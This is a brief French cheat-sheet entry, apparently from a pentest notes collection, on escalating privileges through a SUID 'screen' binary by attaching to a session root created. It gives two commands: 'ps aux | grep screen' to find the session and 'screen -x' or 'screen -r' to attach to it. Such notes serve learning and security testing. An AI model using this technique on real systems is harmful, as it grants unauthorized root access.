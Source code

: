 # PE : screen (SUID)

Si l'utilisateur `root` à créer un `screen` et que cet exécutable est SUID alors il est possible pour un utilisateur d'élever ses privilèges.

### Exemple

```
ps aux | grep screen # permet de récupérer le nom et le pid du screen
screen -x root/<PID>.<SCREEN-NAME> ou screen -r root/<SCREEN-NAME>
```
